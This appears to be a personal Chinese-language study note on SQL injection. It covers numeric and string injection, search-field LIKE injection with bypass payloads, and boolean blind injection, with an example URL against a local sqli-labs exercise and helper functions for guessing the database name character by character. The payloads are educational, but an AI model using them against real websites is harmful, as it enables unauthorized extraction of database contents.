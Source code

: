 
### 数字型注入和字符型注入
[简书，精简**](https://www.jianshu.com/p/5edd7a58a69e)

1. 一个参数是int，一个是string
2. 输入`1 and 1=2`，报错即为数字型注入【执行and逻辑判断】，否则为字符型注入（字符串内的`1 and 1=2`不执行and逻辑判断），要去利用单引号闭合来注入
3. 数字型不需要单引号来闭合，而字符串一般需要通过单引号来闭合的

### 搜索注入
[个人博客，精简](https://www.codenong.com/cs106446931/)
类似字符型注入，不过参数处变成`'%xxx%'`  ，注意要绕过%
- 几种绕过方法：
```
'and 1=1 and '%'='

%' and 1=1--'

%' and 1=1 and '%'='
```
eg:
```
例如我们在搜索框输入 李%‘and’1’=‘1’ and%’=’
SELECT * from table where users like’%李%‘and’1’=‘1’and’%’=’%’
```
- 剩余爆库手段大体等于字符注入


### 布尔盲注
[简单，简书手工布尔盲注](http://127.0.0.1/sqli-labs/Less-8/?id=1‘)

小例子：
- 查询字段名中包含 username 的表
```
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```
- 查表名
```
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
```

1. 通过构造sql语句，通过判断语句是否**执行成功**来对数据进行猜解。【无回显，只返回对错】
2. **只返回true/false，不返回报错**【返回报错则说明有union注入】
3. 例如:

  	先判断当前数据库的长度
  `http://127.0.0.1/sqli-labs/Less-8/?id=1' and length(database())>8 --+`
发现说明等级8的时候，页面就没有显示。那么说明database（）的长度是8

4. 常用函数及注入技巧

```
#left (a, b)从左侧截取a的前b位 ❗注意是前几位，不是第几位
left (database(),1)

ord=ascii 
ascii(x)=97 判断x的ascii码是否等于97
```
